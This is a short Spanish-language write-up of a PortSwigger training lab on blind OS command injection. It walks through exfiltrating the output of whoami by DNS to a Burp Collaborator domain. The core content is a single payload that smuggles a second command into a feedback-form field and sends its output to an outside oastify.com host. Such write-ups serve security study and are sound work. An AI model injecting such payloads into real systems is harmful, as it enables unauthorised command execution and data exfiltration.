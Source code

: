 ```yaml
---
title: "05 Blind OS command injection with out-of-band data exfiltration"
collection: publications
category: portswigger
permalink: publications/Command Injection/05_Blind OS command injection with out-of-band data exfiltration
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección de comandos de SO ciego en la función de retroalimentación.

La aplicación ejecuta un comando shell que contiene los detalles proporcionados por el usuario. El comando se ejecuta de forma asíncrona y no tiene ningún efecto sobre la respuesta de la aplicación. No es posible redirigir la salida a una ubicación a la que se pueda acceder. Sin embargo, se pueden desencadenar interacciones fuera de banda con un dominio externo.'
date: 2024-12-08
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Blind OS command injection with out-of-band data exfiltration'
---
```


![logo]({{site.url}}/images/Command Injection/command-lab-5/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Command Injection/command-lab-5/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, ejecutamos el comando whoami y exfiltramos la salida a través de una consulta DNS a Burp Collaborator.

## Analisis

En esta ocación este laboratorio no podemos redireccionar la salida del comando a otra carpeta, sino a un servidor externo. BurpSuite nos proporciona un "Servidor" el cual se va a redireccionar la salida del comando ejecutado.

Copiamos el servidor `nslookup` que nos proprciona

![Conf1]({{site.url}}/images/Command Injection/command-lab-5/conf1.png)

Asi que debemos inyectar el payload en la respuesta del formulario, no olvidar colocar `url enconde`

```javascript
& nslookup `whoami`.tjgapmpd6yhieubhjiot4zc7iyoqco0d.oastify.com #
```

![Conf2]({{site.url}}/images/Command Injection/command-lab-5/conf2.png)

Vemos la respuesta

![Conf3]({{site.url}}/images/Command Injection/command-lab-5/conf3.png)

Y la pegamos en el laboratorio

![Conf4]({{site.url}}/images/Command Injection/command-lab-5/conf4.png)

## Aprobado

![Aprobado]({{site.url}}/images/Command Injection/command-lab-5/aprobado.png)